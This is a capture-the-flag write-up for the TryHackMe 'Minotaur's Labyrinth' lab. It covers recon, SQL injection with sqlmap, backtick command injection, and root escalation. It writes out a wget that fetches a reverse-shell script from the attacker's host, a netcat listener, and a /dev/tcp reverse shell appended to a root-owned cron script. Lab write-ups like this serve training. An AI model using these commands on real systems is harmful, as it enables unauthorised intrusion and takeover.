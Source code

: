#  [Minotaur's Labyrinth (TryHackMe)](https://tryhackme.com/room/labyrinth8llv)

- First an initial scan with rustscan:

<code>
rustscan -a 10.10.139.83 --ulimit 5000
</code>

![PICTURE_RUSTSCAN](https://user-images.githubusercontent.com/93183445/140650388-04ab3337-b42c-4bd8-a1ab-cd0daca6c247.png)


After that, let's throw nmap at it:

<code>
nmap -sV -sC 10.10.139.83
</code>


![PIC_NMAP](https://user-images.githubusercontent.com/93183445/140650415-24920e15-df4b-4513-9f75-8589d4ab716f.png)

Let's see what directories we can find:

<code>
ffuf -u http://10.10.139.83/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
</code>

While ffuf is doing its thing, I'll take a look at the ftp which allows anonymous login..

In the ftp directories is some stuff, it looks like:

![PIC_FTP1](https://user-images.githubusercontent.com/93183445/140650439-3f17a701-b07c-4d76-aa5b-7c7bcc692865.png)

Let's explore :)

![PIC_FTP2](https://user-images.githubusercontent.com/93183445/140650455-e0da12ec-90bd-451b-978c-88a7b2a8506e.png)

Aaaand we got the fist flag!!!

While ffuf is still running, I'm going to take a look at the website:

![PIC_WEB1](https://user-images.githubusercontent.com/93183445/140650473-eaeb3905-efe9-4ea6-928d-c58b19b691a5.png)


No matter what I typed in, there seems to happen no response what so ever. Let's take a look at the source:\
(The hyperlinks are not what they seem, but go for it, if you feel adventurous, lol)

The source code reveals:

![PIC_WEB2](https://user-images.githubusercontent.com/93183445/140650530-b1c3ac5c-9e94-4b87-9bb4-ded0ae887ac5.png)


A look at "view-source:http://10.10.139.83/js/login.js" also reveals nothing of value..

In the meantime ffuf managed to get done:

![PIC_FUFF](https://user-images.githubusercontent.com/93183445/140650575-eccbffef-c76e-44a0-9854-bb71b9747314.png)


Going quickly through the directories, we can find something interesting in the logs directory.
It looks like a captured Burp request which reveals credentials.

---------------------------------------------------------------------------------

POST /minotaur/minotaur-box/login.php HTTP/1.1\
Host: 127.0.0.1\
Content-Length: 36\
sec-ch-ua: "Chromium";v="93", " Not;A Brand";v="99"\
Accept: */*\
Content-Type: application/x-www-form-urlencoded; charset=UTF-8\
X-Requested-With: XMLHttpRequest\
sec-ch-ua-mobile: ?0\
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36\
sec-ch-ua-platform: "Windows"\
Origin: http://127.0.0.1\
Sec-Fetch-Site: same-origin\
Sec-Fetch-Mode: cors\
Sec-Fetch-Dest: empty\
Referer: http://127.0.0.1/minotaur/minotaur-box/login.html\
Accept-Encoding: gzip, deflate\
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7\
Cookie: PHPSESSID=8co2rbqdli7itj8f566c61nkhv\
Connection: close\

email=hidden&password=hidden


---------------------------------------------------------------------------------

Because I got no response from the login, I turned to the ftp with these very creds, but this trip led to nowhere..
Out of pure desperateness, I turned to the login page again, and got lucky :) 

![PIC_LANDING1](https://user-images.githubusercontent.com/93183445/140650895-ae7fdda0-ca6d-4505-86ac-e9750e928900.png)


So far we have two names: Daedalus and Minotaur. Plus we can appearantly search for people and creatures.\
Let's do that.

![PIC_LANDING2](https://user-images.githubusercontent.com/93183445/140650903-8dd321a7-1c95-4fd7-b6dd-b90e9cea2d5e.png)


Seems to be some kind of database thingy.. Let's catch the request with Burp and let sqlmap deal with the heavy load.

<code>
sqlmap -r req_master.txt --dbs --batch --time-sec=3
</code>

And we get something:

![PIC_SQLMAP1](https://user-images.githubusercontent.com/93183445/140650920-fe7f8b49-d593-4ee4-a906-6c0cce29b8f4.png)

Dump it:

![PIC_SQLMAP2](https://user-images.githubusercontent.com/93183445/140650926-7ff4ef49-4982-45f4-aed7-72e35b7cf2e0.png)


![PIC_SQLMAP3](https://user-images.githubusercontent.com/93183445/140650932-0d1a0c5a-21c6-4d44-993f-846400eff686.png)


As the newly found user with admin rights is in the same table as Daedalus, with whom we were able to login \
before, let's if we get in with these creds, after a short trip to Crackstation (https://crackstation.net)..

After we log in, we can find the flag in the upper left corner of the site. Besides that, there is a
hyperlink "Secret_Stuff". That sounds interesting enough to follow that.

![PIC_LANDING3](https://user-images.githubusercontent.com/93183445/140650947-46ec7a1c-6559-4a86-ab0c-370d925017fe.png)


Which leads to the "secret echo panel". There we can input stuff and it gets reflected on the page. Twice. \
No matter what I was trying in regards to command injection, it didn't get me command execution. \
This site led me finally to using backticks, instead of quotation marks.
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)


\`ls\`


![PIC_RCE1](https://user-images.githubusercontent.com/93183445/140650956-67398bff-8298-49e7-920f-57642485ca02.png)

\`cat /home/user\`

So we got rce, let's explore that. And we can find flag3 in the user home directory, which we can read.

![PIC_RCE2](https://user-images.githubusercontent.com/93183445/140650965-b12da9b1-b7f2-4923-9fc0-c2333e4a7158.png)


Let's get a shell then. I had to try a few things which led me to:

\`/usr/bin/wget <IP>/rev.txt -O /tmp/rev.sh\`

Content of rev.txt:
  
![PIC_REV1](https://user-images.githubusercontent.com/93183445/140651318-d67dd2b4-6a44-4e16-abaf-c89fec962ac7.png)

Set up a local server to serve the shell
  
<code>  
python3 -m http.server 80
</code>
  
Then set up a listener
  
<code>
nc -lnvp 9001
</code>
  
and execute the freshly downloaded reverse shell on the target:
  
\`bash /tmp/rev.sh\`

![PIC_REV2](https://user-images.githubusercontent.com/93183445/140651333-9964013c-007a-45ff-b3f1-e1d662fa0927.png)

After running linpeash and searching around for a bit, I got a tip. There's a file in the root directory\
that we can write to. Plus it is owned by root.. So let's abuse that and pack a rev-shell in that very file :)

![PIC_REV3](https://user-images.githubusercontent.com/93183445/140651338-c8f5a0cf-5939-4dac-ab46-d50150fe698f.png)
  
<code>
echo 'sh -i >& /dev/tcp/<IP>/6666 0>&1' >> timer.sh
</code>

Start another listener and it will connect without any further doing. Now you're root _tataaaa_ \
So let's go and get the final flag in the /root directory:

![PIC_FINAL](https://user-images.githubusercontent.com/93183445/140651348-8391acb8-eb86-438f-9e62-20d61c21fa4f.png)












































